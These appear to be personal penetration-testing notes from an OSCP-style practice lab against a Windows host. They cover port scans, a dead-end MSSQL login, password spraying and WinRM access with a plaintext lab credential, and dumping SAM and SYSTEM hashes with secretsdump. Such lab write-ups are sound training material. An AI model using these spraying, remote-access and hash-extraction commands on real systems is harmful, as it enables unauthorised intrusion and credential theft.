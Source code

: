
# rustscan

```
135/tcp   open  msrpc        syn-ack ttl 64
139/tcp   open  netbios-ssn  syn-ack ttl 64
445/tcp   open  microsoft-ds syn-ack ttl 64
1433/tcp  open  ms-sql-s     syn-ack ttl 64
49664/tcp open  unknown      syn-ack ttl 64
49665/tcp open  unknown      syn-ack ttl 64
49666/tcp open  unknown      syn-ack ttl 64
49667/tcp open  unknown      syn-ack ttl 64
49668/tcp open  unknown      syn-ack ttl 64
49669/tcp open  unknown      syn-ack ttl 64
49670/tcp open  unknown      syn-ack ttl 64
49700/tcp open  unknown      syn-ack ttl 64
```

# nmap

```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5040/tcp  open  unknown
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49700/tcp open  unknown
```

# rabbit holes

![[Pasted image 20240611023945.png]]

mssql was rabbit hole!

```
impacket-mssqlclient celia.almeda@10.10.198.142 -windows-auth
```

![[Pasted image 20240611024017.png]]

# initial

### winrm

did spray on winrm and got this hit with it

```
nxc winrm 10.10.198.142 -u users -p pass -d oscp.exam --continue-on-success
```

![[Pasted image 20240611024303.png]]

```
evil-winrm -i 10.10.198.142 -u celia.almeda -p 7k8XHk3dMtmpnC7
```

**no need for priv esc**

enumeration

got windows.old

![[Pasted image 20240611025225.png]]

downloaded SAM & SYSTEM

![[Pasted image 20240611025249.png]]

### extract creds

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL 
```

![[Pasted image 20240611025407.png]]
